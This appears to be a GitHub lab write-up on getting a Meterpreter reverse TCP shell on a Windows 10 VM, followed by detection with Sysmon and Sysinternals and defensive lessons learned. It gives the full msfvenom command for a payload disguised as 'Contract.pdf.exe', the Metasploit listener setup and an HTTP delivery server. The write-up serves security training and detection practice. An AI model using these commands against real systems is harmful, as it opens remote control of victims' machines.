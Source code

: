 # Establishing a Reverse TCP Shell via a Malicious Windows Executable

### Disclaimer:
This project is conducted within an isolated virtual lab environment strictly for educational and research purposes. 

### Technologies Used
- Proxmox VE (Virtualization)
- Windows 10 VM (Target system)
- Kali Linux VM (Attacker system)
- pfSense Firewall VM (Network segmentation & security)
- VLANs (Managed via pfSense)
- Sysmon Logs (Advanced system monitoring)
- Sysinternals Suite (Windows forensic tools)

## Step 1: Creating a Malicious Payload with MSFvenom
Generate a Windows executable payload using msfvenom on Kali Linux:  

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.10 lport=4444 -f exe -o Contract.pdf.exe`

**Breakdown:**
- `-p windows/x64/meterpreter/reverse_tcp` → Reverse TCP payload
- `LHOST=192.168.10.10` → Attacker's IP address
- `LPORT=4444` → Listening port for the reverse shell
- `-f exe` → Output format (Windows executable)
- `-o Contract.pdf.exe` → Output file name

## Step 2: Setting Up a Listener in Metasploit
Start Metasploit and configure the listener:

`msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.10.10
set LPORT 4444
exploit`

## Step 3: Hosting the Payload via HTTP
On Kali Linux, create a simple HTTP server to distribute the payload:
- `python3 -m http.server 9999`

## Step 4: Disabling Windows Defender & Downloading the Payload
On the target Windows machine:
1. Disable Real-time Protection in Windows Security
2. Open a web browser and navigate to `http://kali_linux_ip:9999`.
3. Download the `Contract.pdf.exe` file (ignore browser warnings).

## Step 5: Executing the Payload & Establishing a Remote Session
1. Run `Contract.pdf.exe` on the Windows machine.
2. The Metasploit handler captures the reverse shell, and a Meterpreter session is established.

![2025-02-27 17_58_56-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/0a06cbcf-0ce8-44d9-8617-ca43ebdfdf45)

- Windows shell `meterpreter > shell`
  
![2025-02-27 18_02_54-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/57bc749a-6de8-42c5-973c-62c07e3d4011)

3. To verify execution, launch the Windows calculator in shell:
- `C:\Windows\System32\calc.exe`

![2025-02-27 18_08_25-QEMU (Win10) - noVNC](https://github.com/user-attachments/assets/ac5b3a3c-feab-40e0-9b8b-83aa0ab936e0)


## Step 6: Analyzing System Logs for Signs of Compromise
Using Sysmon and Sysinternals Suite, investigate malicious activity:

**DNS Query to a Malicious IP (Sysmon Logs)**
- Sysmon logs capture DNS requests to a potential command-and-control (C2) server.
![DNS query (Sysmon)](https://github.com/user-attachments/assets/f7254c2a-693a-4f11-b54f-ab26a473bc04)

**Established Network Connection to Malicious IP (Sysmon Logs)**
- Sysmon detects an outbound network connection to the attacker's system.
![Network connection (Sysmon)](https://github.com/user-attachments/assets/96f33226-9786-4d6c-8ade-a6b769513115)

**Malicious Process Identified via Process Explorer (Sysinternals)**
- Process Explorer reveals Contract.pdf.exe running without a valid signature, communicating with a remote IP.
![Process without signatures (Process Explorer)](https://github.com/user-attachments/assets/9b06302e-b85d-412a-ab1c-36da4344783c)

**TCP Session Analysis via TCPView (Sysinternals)**
- TCPView highlights an active connection to the attacker's system.
![TCP Sessions established (TCPView) ](https://github.com/user-attachments/assets/1da83cdc-dd6e-4ca2-ac17-b11990e98f89)


## Lessons Learned
- Importance of Endpoint Security: Disabling Windows Defender facilitated the attack. A well-configured EDR solution would have detected and blocked the payload.
- Network Monitoring is Critical: Sysmon logs and network monitoring tools can reveal malicious outbound connections, assisting in early threat detection.
- File Integrity and Signature Verification: Untrusted executables should be validated via digital signatures, VirusTotal, and static analysis before execution.
- Segmentation and Least Privilege: Limiting user privileges and enforcing VLAN segmentation can mitigate lateral movement within a compromised network.
- Incident Response Preparedness: Understanding forensic artifacts like Sysmon logs and utilizing Sysinternals tools can help security teams respond effectively to cyber threats.





